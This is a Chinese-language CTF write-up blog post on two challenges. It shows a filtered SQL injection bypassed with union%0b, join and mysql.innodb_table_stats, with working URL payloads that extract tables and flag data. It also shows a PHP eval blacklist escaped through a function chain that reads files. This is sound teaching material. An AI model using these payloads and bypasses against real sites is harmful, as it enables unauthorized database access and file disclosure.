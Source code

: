 ```yaml
---

layout:     post                    # 使用的布局（不需要改）
title:      对两道CTF题目的研究               # 标题 
subtitle:    #副标题
date:       2019-11-15              # 时间
author:     Von                      # 作者
header-img: img/post-bg-swift.jpg
catalog: true                       # 是否归档
tags:                               #标签
    - Web
    - CTF
    - SQL
    - PHP 

---
```


# sql注入
首先经过fuzz,得出主要过滤了以下字符:
```  sql
and(&&) or(||) , max min -- xor ^  updatexml sleep if (union select) 
```
首先union select我们可以用union%0b绕过,至于逗号我们可以用join绕过。但是最蛋疼的是or被过滤，而我们的information_schema中有or,看了wp才了解了一种新的方法。

在此之前我们先来学习一下相关的知识。

## mysql.innodb_table_stats表
在mysql5.6以上的版本中，会在系统库MYSQL库中存在两张与innodb相关的表innodb_index_stats和innodb_table_stats。
其中innodb_index_stats存储的是innodb引擎的库名,表名及其对应的索引名称，也就是和information_schema.schemata差不多。
innodb_table_stats存储的是innodb引擎的库名和表名,也就是和information_schema.tables差不多。
其结构如下:
![](/img/SQLI1.png)
那么也就意味着我们可以在注入中使用如:
``` sql
group_concat(table_name) from mysql.innodb_table_stats where database_name = database()
```
来代替:
``` sql
group_concat(table_name) from information_schema.tables where table_schema = database()
```
当然，这种方法的缺点就是它没有像information_schema.columns一样的表，所以没有办法用这种方法爆出列名，因此就需要借助我们接下来的子查询了。

## 子查询
> 子查询是将一个查询语句嵌套在另一个查询语句中。在特定情况下，一个查询语句的条件需要另一个查询语句来获取，内层查询(inner query)语句的查询结果，可以为外层查询(outer query)语句提供查询条件。

我们先来看一个例子:
``` sql
select 1,2,3,4,5,6,7,8 union select * from users
select (select 1)a,(select 2)b,(select 3)c,(select 4)d,(select 5)e,(select 6)f,(select 7)g,(select 8)h union select * from users
```
![](/img/SQLI2.png)
可以看出，在我们不知道列名的情况下我们得到了一个新表，并且将列名用1，2，3代替了。  
接下来就可以利用子查询将数据归并。
``` sql
select `3` from (select 1,2,3,4,5,6,7,8 union select * from users)a limit 1 offset 1;
select x.3 from (select * from (select 1)a,(select 2)b,(select 3)c,(select 4)d,(select 5)e,(select 6)f,(select 7)g,(select 8)h union select * from users)x limit 1 offset 1;
```
![](/img/SQLI3.png)

## 解决
所以我们可以构造出相应的payload:
``` sql
/article.php?id=0' union%0bselect * from (select 1)a join (select 2)b join (select 3)c join (select 4)d%23
/article.php?id=0' union%0bselect * from (select 1)a join (select (select group_concat(table_name) from mysql.innodb_table_stats where database_name like database()))b join (select 3)c join (select 4)d%23
/article.php?id=0' union%0bselect * from (select 1)z join (select i.3 from (select * from (select 1)a join (select 2)b join (select 3)c union%0bselect * from fl111aa44a99g)i limit 1 offset 1)x join (select 3)v join (select 3)n%23
```

# Decade
先来看核心代码:
``` php
<?php 
$code=@$_POST['code'];
if (';' === preg_replace('/[a-z]+\((?R)?\)/', NULL, $code)) {
                if (preg_match('/et|na|nt|strlen|info|path|rand|dec|bin|hex|oct|pi|exp|log/i', $code)) {
                    echo 'bye~';
                } else {
                    @eval($code);
                }
                }
else
{
    echo 'NO first';
}

?>
```

题目通过正则表达式来限制传入函数的模式只能为a(b(c()));类似的嵌套模式。同时还过滤了一些函数。首先我们需要读取文件，想到的是scandir();
但是无论是读取本文件夹的文件还是其他的我们都需要有个.。首先我们就要来考虑如何通过各种函数获取.。  

## 获取.。  
``` php
<?php
echo pos(localeconv());
# .
echo chr(ceil(sinh(cosh(tan(floor(sqrt(floor(phpversion()))))))));
# .
?>
```
通过上面两种操作我们可以得到.

## 进行chdir()
以上这两种办法可以得到.但是我们发现该文件夹里面只有一个index.php，所以我们需要跳到上一级目录，也就是进行chdir('...').  
至于如何获取...呢?scandir(’.’)扫描当前目录后回显是’.’,’…’，第二个元素是…,所以还需要通过chdir("…")来切换目录,chdir()的返回值为1.  

## 再次得到.
chdir()的返回值为1,我们需要从1得到.来让scandir()再次读取目录,我们可以用chr(46)得到.，所以问题就转化成如何从1得到46。  
其中一种方法是通过time()函数,该函数可参数可以随意传  
``` php
pos(localtime(time()));
```
该操作会返回一个0-60的值。  
故有最终payload:
``` php
code=echo(readfile(end(scandir(chr(pos(localtime(time(chdir(next(scandir(pos(localeconv()))))))))))));
```
多次发包即可得到flag.

# 参考文章
[CSDN的文章](https://blog.csdn.net/qq_40884727/article/details/102924492)  
[简书的文章](https://www.jianshu.com/p/6eba3370cfab)